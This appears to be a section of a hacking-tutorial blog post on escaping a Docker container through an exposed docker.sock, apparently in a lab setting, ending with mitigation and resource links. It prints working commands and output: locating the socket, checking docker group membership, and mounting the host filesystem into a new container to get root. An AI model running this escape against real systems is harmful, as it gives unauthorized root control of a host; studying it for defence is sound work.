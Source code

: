 
### Docker socket escape
To manage other containers from inside a container the **docker.socket** is used.

For example to execute commands such as docker pull or docker run it needs a socket. This can be either a TCP socket or a UNIX socket. 
The Docker default is a UNIX socket. 

TCP sockets use networking interfaces/adapters. The UNIX socket uses the filesystem directly. So this could be a problem when we have a user 
that has access to the Docker socket (docker.sock) and has permissions to run docker commands, because you can use filesystem permissions to decide who or what can read/write.
This gives a hacker the opportunity to take over the host.

Lets see this in action! 


Search for the **docker.sock** file:
```
chimpey@2b5fa5dc3215:/var/run$ find / -name docker.sock 2>/dev/null
/run/docker.sock

```
Now what we need to know is if the user has permissions to run docker commands.
We can check this by looking into groups, if the user is in the docker group, we probably can: 
```
chimpey@2b5fa5dc3215:/var/run$ groups
chimpey docker

```

What we can do now is mount the entire file system to a new container that runs as root:  
```
chimpey@2b5fa5dc3215:/var/run$ docker run -v /:/mnt --rm -it alpine chroot /mnt sh
# id
uid=0(root) gid=0(root) groups=0(root),1(daemon),2(bin),3(sys) [...]
```
As you can see we have root access now! 


### Final notes 
Well that's it for today. There is obviously a whole lot more to tell and a whole lot more exploitations out there, so
maybe in the future I will start a Docker part 2! For now: let all this information sink in and take a little walk outside and enjoy the day. I know I will.

For any mitigation advice take a look at the following article of [Snyke](https://snyk.io/blog/10-docker-image-security-best-practices/)! They give some pretty good Docker advice in general. 

I have to say, I'm really impressed you made it to the final notes! Thank you for exploring this Docker journey with me. 
Keep on hacking and see you on the next adventure. 


##### Resources 
Attackdefence: https://attackdefense.pentesteracademy.com/listingnoauth?labtype=container-security-container-host-security&subtype=container-security-container-host-security-breakouts  
blog.nody.cc: https://blog.nody.cc/posts/container-breakouts-part2/  
hacktricks: https://book.hacktricks.xyz/linux-hardening/privilege-escalation/docker-breakout/docker-breakout-privilege-escalation  
docker.socket: https://greencashew.dev/posts/docker-container-breakout-using-docker.sock/    
Docker sheet cheat: https://dockerlabs.collabnix.com/docker/cheatsheet/    
tbhaxor: https://tbhaxor.com/container-breakout-part-2/  
OWASP: https://cheatsheetseries.owasp.org/cheatsheets/Docker_Security_Cheat_Sheet.html  
TryHackme: https://tryhackme.com/room/dockerrodeo  
Snyke: https://snyk.io/blog/10-docker-image-security-best-practices/  

